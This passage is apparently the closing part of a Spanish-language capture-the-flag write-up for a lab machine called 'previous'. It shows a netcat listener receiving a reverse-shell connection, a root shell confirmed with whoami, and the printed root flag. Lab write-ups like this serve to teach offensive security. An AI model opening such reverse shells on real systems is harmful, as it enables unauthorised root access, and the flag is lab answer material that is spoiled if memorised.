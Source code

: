 Ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.83] 56516
root@previous:/opt/examples# whoami
whoami
root
```

Veremos que ha funcionado y seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
af8a8e83da09a0f824ba7e665db4be51
```
